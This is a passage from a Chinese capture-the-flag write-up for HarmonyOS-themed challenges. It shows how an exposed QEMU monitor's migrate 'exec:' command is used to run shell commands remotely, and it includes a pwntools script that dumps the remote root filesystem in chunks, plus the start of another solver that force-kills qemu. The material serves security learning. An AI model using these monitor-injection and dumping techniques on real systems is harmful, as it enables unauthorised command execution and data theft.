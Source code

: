 ```
flag{SQLITE_WORKS_Well_in_HarmonyOS}
```

### yugioh

本题的文件系统strings后没有flag结果，分析程序，flag应该在远程文件系统中的cards文件夹中，所以想办法把远程的rootfs.img dump下来即可。首先将其base64编码：

```c
migrate "exec: base64 rootfs.img > /tmp/1.txt 1>&2"
```

查看其总共12w行左右，然后分段下载，每次1w行，下载过程中可能不稳定，手工检查一下每个文件是否是1w行：

```python
from pwn import *
#context(log_level='debug')

for j in range(0,13):
    io =remote("172.35.7.37",9999)
    io.send(b"\x01c")
    sleep(10)
    log.success("[shell]")
    f = open(str( j*100 ),'wb')
    for i in range(j*100,(j+1)*100):
        io.sendline(b"")
        io.sendlineafter("(qemu)",'migrate "exec: cat /tmp/1.txt | tail -n +%s | head -n 100 1>&2"'%str(i*100))
        a = io.recvuntil("tail: error writing")
        print('xuanxuan')
        print(a)
        if a[-19:] == b'tail: error writing':
            print('[+] %s / 1205' % str(i))
            f.write(a[-7719:-19])
            print(a[-789:-19])
        else:
            break
    f.close()
    io.close()
```

然后合并下载的13个文件并base64解码，然后解开文件系统就能找到flag：

```c
➜  cd ./cards 
➜  grep -r "flag" ./
./Right_Leg_of_the_Forbidden_One:flag{Yugioh_Is_Really_FUN!}
./Right_Leg_of_the_Forbidden_One:flag{Yugioh_Is_Really_FUN!}
```

### dptth

虽然本题的qemu也没有关monitor，但无法和qemu直接交互，交互的方式为发送base64编码的HTTP请求，然后由题目脚本转发给题目的webserver。不过发现远程直接发base64编码的`GET / HTTP/1.1\n\n`发现回包中本身就含有hacked，而题目检查回包中有hacked就打印flag：

```python
#!/usr/bin/env python3
import socket
import base64
import os
import time
import atexit

def exit_handler():
    os.system("kill -9 `pidof qemu-system-arm`")

HOST = "192.168.1.10"  # The server's hostname or IP address
PORT = 8008  # The port used by the server
```